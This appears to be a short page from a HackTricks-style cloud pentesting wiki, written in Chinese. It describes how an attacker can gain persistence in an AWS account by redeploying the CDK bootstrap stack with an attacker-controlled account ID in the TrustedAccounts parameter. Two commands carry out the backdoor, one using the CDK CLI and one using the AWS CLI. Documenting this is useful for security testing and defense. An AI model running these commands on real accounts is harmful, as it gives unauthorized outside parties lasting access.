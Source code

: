 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

有关更多信息，请访问：

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK 部署一个名为 `CDKToolkit` 的 CFN 堆栈。该堆栈支持一个参数 `TrustedAccounts`，允许外部账户将 CDK 项目部署到受害者账户中。攻击者可以利用这一点，通过使用 AWS cli 重新部署带参数的堆栈，或使用 AWS CDK cli 来授予自己对受害者账户的无限访问权限。
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
